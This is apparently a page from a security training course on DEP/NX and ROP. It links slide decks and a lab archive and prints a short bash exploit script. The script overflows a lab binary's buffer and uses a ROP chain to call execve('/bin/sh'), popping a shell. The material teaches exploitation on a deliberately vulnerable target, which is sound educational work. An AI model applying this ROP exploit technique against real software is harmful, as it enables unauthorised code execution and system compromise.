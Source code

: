 =====================
Day 2 - 3 DEP NX ROP
=====================

Below is the PowerPoint for this section.

:download:`DEP NX ROP PowerPoint<media/day2/dep_nx_rop.pptx>` 

Activities
----------

Here you can find the PowerPoint for the activities portion, as 
well as corresponding files.

:download:`Bypassing NX with ROP PowerPoint<media/day2/bypassing_nx_with_rop.pptx>` 

:download:`bof NX zip<media/day2/bof_nx.zip>`

::

    #exploit.sh 
    #!/bin/bash
    
    # Exploit for /usr/local/bin/bof_nx
    # Uses ROP to defeat NX


    # Fill buffer and extra space...

    echo -en "AAAAAAAAAAAAAAAA"             # Fill 16-byte buffer
    echo -en "BBBBBBBB"                             # Fill extra space added by GCC
    echo -en "CCCC"                                 # Fill saved EBP


    # execv("/bin/sh", NULL); direct ROP shellcode...

    echo -en "\x2f\x85\x04\x08"             # pop eax; ret;
    echo -en "\x0b\x00\x00\x00"             # 11 (SYS_execv)
    echo -en "\x31\x85\x04\x08"             # pop ebx; ret;
    echo -en "\x1c\xa0\x04\x08"             # char* -> "/bin/sh"
    echo -en "\x55\x85\x04\x08"             # xor ecx, ecx; ret;
    echo -en "\x4a\x84\x04\x08"             # int 0x80; ret

    echo ""                                                 # newline (\n), send it!


    # Linux wants to send EOF to the shell, closing it early.
    # Use `cat` here to continue reading/sending input after
    # the shell pops.

    cat
